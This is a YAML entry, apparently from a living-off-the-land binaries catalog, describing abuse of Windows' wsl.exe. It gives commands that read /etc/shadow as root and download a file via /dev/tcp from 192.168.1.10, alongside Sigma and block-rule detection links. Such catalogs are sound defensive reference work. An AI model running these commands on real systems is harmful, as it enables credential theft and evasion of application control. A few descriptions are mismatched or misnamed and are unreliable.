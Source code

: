 ```yaml
---
Name: Wsl.exe
Description: Windows subsystem for Linux executable
Author: 'Matthew Brown'
Created: 2019-06-27
Commands:
  - Command: wsl.exe -e /mnt/c/Windows/System32/calc.exe
    Description: Executes calc.exe from wsl.exe
    Usecase: Performs execution of specified file, can be used to execute arbitrary Linux commands.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10, Windows 19 Server
  - Command: wsl.exe -u root -e cat /etc/shadow
    Description: Cats /etc/shadow file as root
    Usecase: Performs execution of arbitrary Linux commands as root without need for password.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10, Windows 19 Server
  - Command: wsl.exe --exec bash -c 'cat file'
    Description: Cats /etc/shadow file as root
    Usecase: Performs execution of arbitrary Linux commands.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10, Windows 19 Server
  - Command: wsl.exe --system calc.exe
    Description: Execute the command as root
    Usecase: Performs execution of arbitrary Linux commands as root without need for password.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 11
  - Command: wsl.exe --exec bash -c 'cat < /dev/tcp/192.168.1.10/54 > binary'
    Description: Downloads file from 192.168.1.10
    Usecase: Download file
    Category: Download
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10, Windows 19 Server
Full_Path:
  - Path: C:\Windows\System32\wsl.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_wsl_lolbin_execution.yml
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - IOC: Child process from wsl.exe
Resources:
  - Link: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - Link: https://twitter.com/nas_bench/status/1535431474429808642
Acknowledgement:
  - Person: Alex Ionescu
    Handle: '@aionescu'
  - Person: Matt
    Handle: '@NotoriousRebel1'
  - Person: Asif Matadar
    Handle: '@d1r4c'
  - Person: Nasreddine Bencherchali
    Handle: '@nas_bench'
---
```

